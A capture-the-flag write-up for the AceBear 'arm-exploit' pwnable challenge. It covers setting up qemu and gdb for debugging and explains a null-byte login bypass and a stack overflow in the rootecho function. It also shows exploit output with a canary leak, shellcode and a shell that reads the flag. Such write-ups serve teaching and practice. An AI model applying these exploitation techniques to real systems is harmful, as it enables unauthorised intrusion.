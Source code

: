 # arm-exploit
**Category:** Pwnable
**Points:** 856
**Solves:** 13
**Description:**
> Download in : [Link](https://drive.google.com/open?id=1aM2CTWFxKetOTMNfck71Bxv_ZGw05IzF)
> Service: nc armexploit.acebear.site 3001

## Writeup
```
$ file arm-exploit
arm-exploit: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=cbaf26f5088911adc7a36ef8ac96660a33f617d1, not stripped
```

### Setup Environment
#### Install
```
sudo apt-get install qemu
sudo apt-get install qemu-user-static kpartx
sudo apt-get install gdb-multiarch
```

#### Run
```
$ qemu-arm-static ./arm-exploit 
**************************Welcome to Arm Exploit**************************
*                                                                        *
*************************Challenge Created By CNV*************************
*   Team: AceBear                                                        *
*   My blog: https://chung96vn.blogspot.com/                             *
**************************************************************************
*******************Arm Exploit******************
*                                              *
* 1 - info                                     *
* 2 - login                                    *
* 3 - echo                                     *
* 4 - change username                          *
* 5 - exit                                     *
************************************************
Your choice:
```

#### Debug over gdb-multiarch
Terminal 1
> qemu-arm-static -g 12345 ./arm-exploit

Terminal 2
```
$ gdb-multiarch
pwndbg> set architecture arm
The target architecture is assumed to be arm
pwndbg> target remote localhost:12345
Remote debugging using localhost:12345
0xf67d6a40 in ?? ()
...
 ► f 0 f67d6a40
pwndbg>
```

#### Run over python script
```python
import pwntools
r = process(["qemu-arm-static","-g","12345", "./arm-exploit"]) # run and debug
r = process(["qemu-arm-static","./arm-exploit"]) # Just run
```

### The Bug
Binary has some functions: genpass, info, login, echo, change username and exit.

First bug in **change_username** function:
* user input max 0x20 bytes into buf on stack
* strcpy(USER, buf) if 0x20 bytes buf not null then 0x20 bytes copy into USER and last null bytes will copy to USER+0x20 ==  isGuestLogin => isGuestLogin = 0 => bypass root login then we can use rootecho function.
```
.bss:0002209C USER            % 0x20                  ; DATA XREF: info+28↑o
.bss:000220BC isGuestLogin    % 4                     ; DATA XREF: info+48↑r
```

Second bug in **rootecho** function:
* buff in FP-0x88 but read 0x100 bytes => stack overflow.
```c
int rootecho()
{
  int result; // r0
  char s1; // [sp+4h] [bp-88h]
  _BYTE v2[3]; // [sp+9h] [bp-83h]
  int v3; // [sp+84h] [bp-8h]

  v3 = _bss_start;
  while ( 1 )
  {
    printf("root@arm-exploit:~$ ");
    secure_read(&s1, 0x100u); // <======= Bug Here
    result = strcmp(&s1, "exit");
    if ( !result )
      break;
    if ( !strcmp(&s1, "help") )
    {
      puts("List command:");
      puts("$ echo argument");
      puts("$ exit");
      puts("$ help");
    }
    else if ( !memcmp(&s1, "echo ", 5u) )
    {
      puts(v2);
    }
    else
    {
      puts("Invalid Command! Try help");
    }
  }
  return result;
}
```
### Exploit
[arm_exploit.py](./exploit.py)
```
$ python arm.py 3
[+] Opening connection to armexploit.acebear.site on port 3001: Done
[*] canary: 0xd4bae800
[*] stack: 0xf6fffb34
[*] buff: 0xf6fffab0
[*] Paused (press any to continue)
[*] Switching to interactive mode
 AAAAAAA0\x8f��/�xF\x0e0\x90I\x1a\x92\x1a'�Q\x037�/bin//sh
root@arm-exploit:~$ $ id
uid=1000(arm_exploit) gid=1000(arm_exploit) groups=1000(arm_exploit)
$ cat /ho*/*/flag
AceBear{arm_i5_my_sad_m3m0ry}$
```

